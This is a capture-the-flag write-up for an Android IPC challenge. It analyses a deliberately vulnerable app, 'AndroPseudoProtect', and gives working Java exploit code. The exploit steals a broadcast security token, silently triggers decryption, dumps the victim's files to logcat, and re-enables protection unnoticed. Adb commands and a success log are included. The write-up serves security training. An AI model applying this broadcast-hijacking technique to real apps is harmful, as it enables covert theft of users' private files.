



# AndroPseudoProtect Challenge 2

## Overview

AndroPseudoProtect offers comprehensive protection with an advanced security service that encrypts all files on the device's external storage to protect against unauthorized access. The app provides real-time alerts through persistent notifications. It uses military-grade encryption and native code implementation for optimal performance to protect against draining the device battery. 

The app supports two commands:
 
1. **Start Security** - Encrypts all files stored on the devices external storage.

2. **Stop Security** - Decrypts all the files it encrypted.

## Objective

Create a malicious application that exploits the AndroPseudoProtect application by targeting vulnerabilities in its IPC mechanisms. The goal is to develop an Android application that can silently disable the encryption protection without the user's knowledge or consent. The attacker should also be able to steal unencrypted files otherwise considered encrypted on the external filesystem. The exploit should ensure that even when users believe they've activated the advanced protection, it remains ineffective because the victim application turns it off in the background, undermining the app's publicized security claims. All this without needing any action from the victim.

The exploit must work on Android versions up to Android 15 and must not require any runtime permissions to be granted by the victim except the standard external storage access permission. The attacker PoC should demonstrate the ability to extract and reuse any application-generated or hardcoded tokens from the victim application through normal user interaction, rather than hardcoding those tokens directly into the PoC. 

## Jadx-gui

Using jadx-gui on the target application, AndroPseudoProtect.apk, revealed the following key insights:

1. **Start and stop exported** - The app's `SecurityService` is exported and more importantly, its `SecurityReceiver` is exported and receives the `START_SECURITY` and `STOP_SECURITY` commands. This means an attacker can send start and stop commands to the receiver to enable and disable the encryption.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 1: Service and Security Receiver.</em>
  </figcaption>
</figure>

>**Note:** SecurityReceiver is exported with no android:permission restriction. Any installed application can send START_SECURITY or STOP_SECURITY commands to it. The only protection is the token check inside SecurityService, which is defeated by stealing the token from the broadcast.

2. **Security token leaked** - The `MainActivity` and `SecurityService` broadcast action events as broadcast intents. Worse, the `MainActivity` broadcasts the security token, `EXTRA_SECURITY_TOKEN`, with `ACTION_START_SECURITY`. This allows an attacker to set up a dynamic receiver to receive these broadcast intents and steal the security token.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 2: MainActivity startSecurity.</em>
  </figcaption>
</figure>

> **Note:** The security token is generated in a native library (libsecurity-native.so) via JNI, making static extraction non-trivial. However, the token is leaked in plaintext over a broadcast intent before the service ever validates it, rendering the native obfuscation irrelevant.

3. **File list exposed** - When the `SecurityService` sends the `ACTION_ENCRYPTION_PROGRESS` intent, it sends the encrypted file list. This allows an attacker to easily see the files that are encrypted so during an attacker initiated decryption the file list to copy is known.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 3: The file list sent in an intent.</em>
  </figcaption>
</figure>

## Exploit Design

With the jadx-gui analysis, all the pieces are present for the exploit.

The victim installs the app and clicks it start up. The only action needed by the victim is to grant the standard external storage access permission.

The following steps comprise the main exploit application workflow: 

1. Get the standard external storage access permission. A one time deal.

2. Launch the exploit service.

3. Make the exploit service sticky so it doesn't get killed by Android memory manager.

4. Set up a dynamic receiver to get all action intents.

> **Note:** The exploit service is not persistent so if the victim reboots the device then they must start the exploit app again. This was design decision for this challenge and to keep it focused.

When the victim clicks the `Start Security` button on the AndroPseudoProtect app, the following actions take place:

1. The exploit service obtains the file list through the encryption progress intent.

2. Once security has finished starting and encrypted all the files, the exploit service sends the stop security command to the `SecurityReceiver`.

3. Once decryption is complete, the security service dumps the contents of all decrypted files into logcat.

4. After all file contents are dumped, the start security command is sent to the `SecurityReceiver`.

5. The AndroPseudoProtect app continues to operate as normal with the victim unwise to the attack.

> **Note:** The start->stop->start sequence causes the victim app to flip between states but should be unnoticeable to the victim.

> **Note:** During exploit development, commands sent directly to the exported SecurityService were attempted but did not reliably trigger the decryption flow. Commands routed through SecurityReceiver proved to be the reliable path, as the receiver runs inside the victim's process and correctly forwards intents to the service.

## Exploit Code

The following code snippets highlight the exploit process.

### AndroidManifest.xml

```Java
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"
        tools:ignore="ScopedStorage"/>
    <uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
    <uses-permission android:name="android.permission.FOREGROUND_SERVICE_DATA_SYNC"/>

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.Challenge2App">

        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>

        <service
            android:name=".ExploitService"
            android:exported="false"
            android:foregroundServiceType="dataSync"/>

    </application>

</manifest>
```

### MainActivity.java

Request `Allow access to manage all files` if not already given.

```Java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Request All Files Access if not already granted
        if (!Environment.isExternalStorageManager()) {
            startActivity(new Intent(
                    Settings.ACTION_MANAGE_APP_ALL_FILES_ACCESS_PERMISSION,
                    Uri.parse("package:" + getPackageName())
            ));
        }

        // Start as foreground service. Pinned in memory until device reboots
        startForegroundService(new Intent(this, ExploitService.class));
    }
}
```

### ExploitService.java

Setup dynamic listener:

```java
 public void onCreate() {
        super.onCreate();

        startAsForeground();

        Log.d(TAG, "================================================");
        Log.d(TAG, "Exploit service running — waiting for victim...");
        Log.d(TAG, "================================================");

        exploitReceiver = new BroadcastReceiver() {
            @Override
            public void onReceive(Context context, Intent intent) {
                if (intent == null || intent.getAction() == null) return;
                switch (intent.getAction()) {
                    case ACTION_START:
                        onStartIntercepted(intent);
                        break;
                    case ACTION_PROGRESS:
                        onProgressReceived(intent);
                        break;
                    case ACTION_ENCRYPT_COMPLETE:
                        onEncryptionComplete();
                        break;
                    case ACTION_DECRYPT_COMPLETE:
                        onDecryptionComplete();
                        break;
                }
            }
        };

        IntentFilter filter = new IntentFilter();
        filter.addAction(ACTION_START);
        filter.addAction(ACTION_PROGRESS);
        filter.addAction(ACTION_ENCRYPT_COMPLETE);
        filter.addAction(ACTION_DECRYPT_COMPLETE);

        ContextCompat.registerReceiver(
                this, exploitReceiver, filter,
                ContextCompat.RECEIVER_EXPORTED
        );
    }
```


Token stealing:

```Java
    private void onStartIntercepted(Intent intent) {
        // FLAG 1: our own restart broadcast came back — ignore it
        if (isRestarting) {
            Log.d(TAG, "Ignoring our own restart broadcast");
            isRestarting = false;
            return;
        }

        // Genuine victim start. Steal the token.
        // Wait for ENCRYPTION_COMPLETE before sending STOP (avoids race condition)
        capturedToken = intent.getStringExtra(EXTRA_TOKEN);
        if (capturedToken == null) return;

        Log.d(TAG, "================================================");
        Log.d(TAG, "STEP 1: TOKEN CAPTURED: " + capturedToken);
        Log.d(TAG, "================================================");
    }
```

Tracking encrypted files:

```Java
    private void onProgressReceived(Intent intent) {
        ArrayList<String> files = intent.getStringArrayListExtra(EXTRA_FILES);
        if (files == null || files.isEmpty()) return;

        stolenPaths = new ArrayList<>(files);

        Log.d(TAG, "STEP 2: Tracking " + stolenPaths.size() + " file(s):");
        for (String path : stolenPaths) {
            Log.d(TAG, "  → " + path);
        }
    }
```

Dumping decrypted files into logcat:

```java
   private void onDecryptionComplete() {

        if(weSentStop) {
            Log.d(TAG, "================================================");
            Log.d(TAG, "STEP 4: DECRYPTION COMPLETE — reading files");
            Log.d(TAG, "================================================");

            for (String encryptedPath : stolenPaths) {
                String path = encryptedPath.replace(".encrypted", "");
                Log.d(TAG, "--- FILE: " + path + " ---");
                try {
                    Log.d(TAG, new String(Files.readAllBytes(Paths.get(path))));
                } catch (IOException e) {
                    Log.e(TAG, "Read failed: " + e.getMessage());
                }
                Log.d(TAG, "---------------------------------------");
            }

            weSentStop = false;
            restartSecurity();
        }
        else {
            Log.d(TAG, "Victim stopped manually — not restarting");
        }
    }
```

## Exploitation Process

Create some test files:

```bash
adb shell 'mkdir -p /sdcard/Documents/andropseudo-test'
adb shell 'echo "test file" > /sdcard/Documents/andropseudo-test/test.txt'
adb shell 'echo "This is a secret message!" > /sdcard/Documents/andropseudo-test/secret.txt'
adb shell 'echo "Hello World!" > /sdcard/Documents/andropseudo-test/message.txt'
```

Note: Since the exploit retrieves the file list from the victim app intent, test files are arbitrary and can be anything as long as they are on the external storage.

Install the victim app on a non-rooted emulator - Pixel 8 API 35 device:

```bash
adb install -r -g -t AndroPseudoProtect.apk
```

Click on the app to run and select `Allow access to manage all files` to access external storage.

Run logcat with the tag EXPLOIT:

```bash
adb logcat -s EXPLOIT
```

Install the exploit app on the non-rooted emulator:

```bash
adb install -r -g -t exploit-debug.apk
```

Click on the exploit app to run and select `Allow access to manage all files` to access external storage.

### Successful Result

Next, click `Start Security` on the victim app. The files should encrypt then the exploit quickly stops security and dumps the decrypted files in logcat. Once the files are dumped in logcat, the exploit starts security on the victim app.


```bash
--------- beginning of main
09-05 19:43:45.406  4292  4292 D EXPLOIT : ================================================
09-05 19:43:45.406  4292  4292 D EXPLOIT : Exploit service running — waiting for victim...
09-05 19:43:45.406  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.264  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.264  4292  4292 D EXPLOIT : STEP 1: TOKEN CAPTURED: 8ksec_S3cr3tT0k3n_D0N0tSh4r3
09-05 19:45:42.264  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.264  4292  4292 D EXPLOIT : STEP 2: Tracking 1 file(s):
09-05 19:45:42.264  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/test.txt.encrypted
09-05 19:45:42.264  4292  4292 D EXPLOIT : STEP 2: Tracking 2 file(s):
09-05 19:45:42.264  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/test.txt.encrypted
09-05 19:45:42.264  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/secret.txt.encrypted
09-05 19:45:42.264  4292  4292 D EXPLOIT : STEP 2: Tracking 3 file(s):
09-05 19:45:42.264  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/test.txt.encrypted
09-05 19:45:42.264  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/message.txt.encrypted
09-05 19:45:42.264  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/secret.txt.encrypted
09-05 19:45:42.264  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.264  4292  4292 D EXPLOIT : STEP 3: ENCRYPTION COMPLETE — sending STOP
09-05 19:45:42.264  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.266  4292  4292 D EXPLOIT : STEP 3: STOP broadcast to SecurityReceiver
09-05 19:45:42.775  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.775  4292  4292 D EXPLOIT : STEP 4: DECRYPTION COMPLETE — reading files
09-05 19:45:42.775  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.776  4292  4292 D EXPLOIT : --- FILE: /storage/emulated/0/Documents/andropseudo-test/test.txt ---
09-05 19:45:42.780  4292  4292 D EXPLOIT : test file
09-05 19:45:42.780  4292  4292 D EXPLOIT : ---------------------------------------
09-05 19:45:42.780  4292  4292 D EXPLOIT : --- FILE: /storage/emulated/0/Documents/andropseudo-test/message.txt ---
09-05 19:45:42.781  4292  4292 D EXPLOIT : Hello World!
09-05 19:45:42.781  4292  4292 D EXPLOIT : ---------------------------------------
09-05 19:45:42.781  4292  4292 D EXPLOIT : --- FILE: /storage/emulated/0/Documents/andropseudo-test/secret.txt ---
09-05 19:45:42.782  4292  4292 D EXPLOIT : This is a secret message!
09-05 19:45:42.782  4292  4292 D EXPLOIT : ---------------------------------------
09-05 19:45:42.783  4292  4292 D EXPLOIT : ================================================
09-05 19:45:42.783  4292  4292 D EXPLOIT : STEP 5: SECURITY RESTARTED — victim sees nothing
09-05 19:45:42.783  4292  4292 D EXPLOIT : ================================================
09-05 19:45:43.292  4292  4292 D EXPLOIT : STEP 2: Tracking 1 file(s):
09-05 19:45:43.292  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/test.txt.encrypted
09-05 19:45:43.292  4292  4292 D EXPLOIT : STEP 2: Tracking 2 file(s):
09-05 19:45:43.292  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/test.txt.encrypted
09-05 19:45:43.292  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/message.txt.encrypted
09-05 19:45:43.292  4292  4292 D EXPLOIT : STEP 2: Tracking 3 file(s):
09-05 19:45:43.292  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/test.txt.encrypted
09-05 19:45:43.292  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/message.txt.encrypted
09-05 19:45:43.292  4292  4292 D EXPLOIT :   → /storage/emulated/0/Documents/andropseudo-test/secret.txt.encrypted
09-05 19:45:43.292  4292  4292 D EXPLOIT : Ignoring encryption from our own restart
```